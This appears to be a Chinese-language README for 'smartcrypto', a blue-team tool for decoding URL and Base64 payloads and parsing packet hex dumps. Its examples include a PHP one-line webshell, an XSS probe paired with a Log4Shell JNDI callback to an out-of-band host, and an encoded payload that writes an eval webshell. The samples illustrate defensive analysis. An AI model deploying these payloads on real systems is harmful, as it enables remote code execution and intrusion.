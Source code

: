 # smartcrypto_v1.0
一键报文解码，HVV，蓝队防守利器
一键式多功能加解密工具，具有以下特点：

1.无需繁琐判断，一键常用全编码解密。

2.自动识别需解密部分。

3.用户可自定义的恶意代码高亮显示。

4.大小写混淆识别。

5.对ICMP、UDP报文的解析。

6.Windows、Linux、Mac跨平台使用，仅需python3环境。

7.工具小巧且功能强大，仅3.4MB。

8.代码开源，安全可靠。

9.二维码生成功能。

工具运行：

python 软件安装目录\smartcrypto.py

 <img width="901" alt="图片1" src="https://github.com/user-attachments/assets/25da5a37-4f00-4f15-a3d1-cf0533112e18">




1.一键常用全编码解密：用户无需判断，系统自动尝试所有可用方法进行解密。配合完善的报错机制，帮助用户快速锁定正确的解密方式。

例：

https%3A%2F%2Fwww.example.com%2Fabout%3Fuser%3Djohn%20doe



2.自动识别需解密部分：使用正则表达式自动检测并解密文本中的编码片段。

例：

https://example.com/api?data=ZGF0YSt3aXRoL3NwZWNpYWw/Y2hhcnMmaW49aXQ=



3.用户可自定义的恶意代码高亮显示：用户可以在value.txt文件中添加关键词，使用户拥有自己的恶意代码识别库。系统会在输出结果中高亮显示这些关键词，帮助用户快速识别潜在威胁。

例：

<?php

$a=base64_decode("YXNzZXJ0");

@a($_POST['shell']);

?>



4.大小写混淆识别：通过正则搜索，增强了对常见绕过安全防护技术的识别能力。

例：

GET /_404_%3E%3Cscript%3EAlERt(1337)%3C%2Fscript%3E useragent: ${jndi:ldap://127.0.0.1#.${hostName}.useragent.cr3fnhsgvalhkg6trek0mktqo1urhqifi.oast.online} ///../app.js



帮助用户一键快速解密，并迅速锁定威胁代码。

5.对ICMP、UDP报文的解析：能够解析并展示HEX DUMP数据，提供详细的网络协议头部信息（如以太网、IP、ICMP、UDP等）。

例1.ICMP ping包：

00000000: 00 60 8C D9 72 3B 00 1C 23 4B C1 22 08 00 45 00  .`..r;..#K."..E.

00000010: 00 54 1C 46 40 00 40 01 F6 C2 C0 A8 00 68 C0 A8  .T.F@.@......h..

00000020: 00 01 08 00 07 56 00 01 00 4D 61 62 63 64 65 66  .....V...Mabcdef

00000030: 67 68 69 6A 6B 6C 6D 6E 6F 70 71 72 73 74 75 76  ghijklmnopqrstuv

00000040: 77 78 79 7A 00 00 00 00 00 00 00 00 00 00        wxyz............



例2.UDP DNS查询报文：

00000000: 00 1A A0 9B C3 12 00 1B 21 7B D4 F1 08 00 45 00  ......!.{....E.

00000010: 00 32 4A 1C 00 00 80 11 B7 E4 C0 A8 01 0A C0 A8  .2J.............

00000020: 01 01 1F 90 00 35 00 1E 5C A2 00 01 01 00 00 01  .....5..\.......

00000030: 00 00 00 00 00 00 03 77 77 77 07 65 78 61 6D 70  .......www.exam

00000040: 6C 65 03 63 6F 6D 00 00 01 00 01                ple.com.....



6.Windows、Linux、Mac跨平台使用，仅需python3环境。

7.工具小巧且功能强大，仅3.4MB。



8.代码开源，安全可靠。

9.二维码生成功能：

在输入框输入代码或其他内容，点击生成二维码。

方便在某些无网络的情况下传递数据。

也可以当成一个有趣的工具，逗女朋友开心^_^。

10.复杂的组合操作：

例：

1[]=xmykh.php&1[]=N3BuZGVhPD9waHAgY2xhc3MgR2FNMTBmQTUgeyBwdWJsaWMgZnVuY3Rpb24gX19jb25zdHJ1Y3QoJEg3bXU2KXsgQGV2YWwoIi8qWkc1emtuUmZTayovIi4kSDdtdTYuIiIpOyB9fW5ldyBHYU0xMGZBNSgkX1JFUVVFU1RbJ00nXSk7Pz4%3D&2=$a,$b&3=return var_dump(file_put_contents($b,base64_decode($a)));



说明他是经过URL+BASE64加密的。

把URL解密的结果复制，粘贴到输入框二次解密。



这时BASE64和URL安全BASE64都解出来了，对比两者。

BASE64:



URL安全BASE64：



明显可以看到BASE64有一段解密错误。

说明黑客是用URL安全BASE64加密的。

通过URL+URL安全BASE64组合解密，我们明显可以看出这是远程代码执行（RCE）。

11.另外，还有一些符合用户使用习惯的小功能，例如：

l双击对应输出框，会自动跳转到详细视图界面，有更大的输出框，方便用户查看解密结果。

l单击解密，会自动跳转到输出框，方便用户查看全局解密情况。

l完善的复制粘贴功能，可以用快捷键，可以右键菜单，也可以点击用户界面的按钮。

l一键清空功能，节约用户时间。

l左下角状态栏功能，让用户知道“smartcrypto”时刻在忠实执行你的命令。

  通过这些功能，工具帮助用户轻松进行各类加解密操作，提高了工作效率，并增强了数据分析和网络安全检测的能力。即使对编程和网络安全知识了解不多，也能通过这个工具轻松进行相关操作。

联系与支持

本工具会一直维护，如需要开发什么新的实用功能或建议，请联系开发者：

邮箱：dreamblade123@163.com

微信：allen886611
